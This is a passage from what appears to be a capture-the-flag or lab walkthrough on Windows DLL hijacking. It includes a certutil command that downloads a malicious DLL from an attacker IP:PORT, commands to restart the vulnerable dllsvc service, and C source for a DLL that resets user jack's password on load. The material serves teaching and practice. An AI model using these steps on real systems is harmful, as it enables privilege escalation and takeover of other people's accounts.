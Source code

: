 
The mingw compiler can be used to generate the DLL file with the command given below:

```
x86_64-w64-mingw32-gcc windows_dll.c -shared -o output.dll
```

You can easily install the Mingw compiler using the `apt install gcc-mingw-w64-x86-64` command.


We have seen earlier that the application we target searches for a DLL named `hijackme.dll`. This is what our malicious DLL should be named.

![image](https://user-images.githubusercontent.com/69868171/154280334-cf14e7e2-06ed-4139-9452-c3e65a53dead.png)


You can copy the C code above given for the DLL file to the AttackBox or the operating system you are using and proceed with compiling.


Once compiled, we will need to move the hijackme.dll file to the Temp folder in our target system. You can use the following PowerShell command to download the .dll file to the target system: `certutil -urlcache -split -f "IP:PORT/hijackme.dll" hijackme.dll`


![image](https://user-images.githubusercontent.com/69868171/154279702-d554255b-2568-414f-830c-82d2b8b12c82.png)


We will have to stop and start the dllsvc service again using the command below:

```
sc stop dllsvc & sc start dllsvc
```

![image](https://user-images.githubusercontent.com/69868171/154279895-83725379-76cb-426d-b7db-1dc9d2422d4f.png)

DLL Hijacking done.

###  Skeleton Code To Change User Password

```
           
#include <windows.h>

BOOL WINAPI DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved) {
    if (dwReason == DLL_PROCESS_ATTACH) {
        system("cmd.exe /k net user jack /random > C:\\Temp\\dll.txt");
        ExitProcess(0);
    }
    return TRUE;
}
```

File transfer to the directory that is missing the `hijackme.dll` now let stop and start the `dllsvc` on our command prompt.

![image](https://user-images.githubusercontent.com/69868171/154288313-db06ef5f-d356-41fc-9877-16e10232a4ac.png)

Now let confirm it.
